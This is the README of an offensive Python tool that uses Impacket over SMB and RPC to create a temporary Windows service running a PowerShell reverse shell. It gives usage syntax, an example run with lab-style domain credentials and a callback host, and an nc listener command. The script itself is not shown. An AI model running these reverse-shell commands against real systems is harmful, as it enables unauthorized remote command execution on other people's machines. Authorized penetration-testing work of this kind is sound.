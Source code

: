 # SMB Remote Service Shell

## Overview

This script leverages SMB and RPC to remotely create, execute, and clean up a Windows service on a target machine. The service runs a PowerShell reverse shell, allowing remote command execution.

## Features

- Uses Impacket to establish an SMB connection and RPC transport
- Creates a temporary Windows service to execute a reverse shell payload
- Deletes the service after execution
- Allows the user to specify local callback host and port for reverse shell

## Prerequisites

- Python 3.x
- Impacket library installed (`pip install impacket`)

## Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/yourrepo/smb-remote-shell.git
   cd smb-remote-shell
   ```
2. Install dependencies:
   ```sh
   pip install -r requirements.txt
   ```

## Usage

Run the script with the following syntax:

```sh
python smb-remote-shell.py <TARGET> <DOMAIN\USERNAME:PASSWORD> -i <LHOST> -p <LPORT>
```

### Example

```sh
python smb-remote-shell.py 192.168.98.120 child.warfare.corp\corpmngr:"User4&*&*" -i 192.168.80.10 -p 8124
```

### Arguments

| Argument        | Description                                            |
| --------------- | ------------------------------------------------------ |
| `<TARGET>`      | Target machine's IP or hostname                        |
| `<CREDENTIALS>` | Login credentials in `domain\username:password` format |
| `-i <LHOST>`    | Local host for the reverse shell callback              |
| `-p <LPORT>`    | Local port for the reverse shell callback              |

## How It Works

1. The script connects to the target using SMB and RPC.
2. It creates a Windows service executing a PowerShell reverse shell.
3. The service starts, executing the payload and connecting back to the attacker's machine.
4. The script waits for user confirmation before cleaning up the service.

## Notes

- Ensure you have a listener set up on the local machine before running the script:
  ```sh
  nc -lvnp <LPORT>
  ```
- Administrator privileges on the target machine are required.
- Use this tool only in authorized environments.

## Disclaimer

This tool is intended for educational and authorized security testing purposes only. Misuse of this script is strictly prohibited.

\
Reference  [https://github.com/fortra/impacket/blob/master/examples/psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

